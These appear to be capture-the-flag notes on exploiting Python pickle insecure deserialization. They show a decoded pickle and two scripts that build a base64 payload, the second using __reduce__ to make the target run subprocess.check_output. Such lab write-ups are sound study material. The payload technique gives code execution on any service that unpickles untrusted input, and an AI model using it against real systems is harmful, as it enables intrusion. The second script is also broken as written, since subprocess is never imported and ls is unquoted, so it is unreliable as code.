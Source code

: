 ___

# Insecure deserialization

![[Pasted image 20241029175340.png]]

Base64 decode

```bash
(dp0  
S'serum'  
p1  
ccopy_reg  
_reconstructor  
p2  
(c__main__  
anti_pickle_serum  
p3  
c__builtin__  
object  
p4  
Ntp5  
Rp6  
s.
```

https://docs.python.org/3/library/pickle.html

Reverse
```python
import pickle  
import pickletools  
import base64  
import os  
  
class anti_pickle_serum(object):  
       def __init__(self):  
               pass  
  
exploit_obj = anti_pickle_serum()  
raw_pickle = pickle.dumps({"serum": exploit_obj}, protocol=0)  
  
optimized_pickle = pickletools.optimize(raw_pickle)  
pickletools.dis(optimized_pickle)  
  
payload= base64.b64encode(raw_pickle)  
print(payload)
```

Now add the reduce method
```python
import pickle  
import pickletools  
import base64  
import os  
  
class AntiPickleSerum(object):  
   def __init__(self):  
       pass  
  
   def __reduce__(self):  
       return subprocess.check_output, (ls,) 
  
exploit_obj = AntiPickleSerum()  
raw_pickle = pickle.dumps({"serum": exploit_obj}, protocol=0)  
  
optimized_pickle = pickletools.optimize(raw_pickle)  
pickletools.dis(optimized_pickle)  
  
payload = base64.b64encode(raw_pickle)  
print(payload)
```

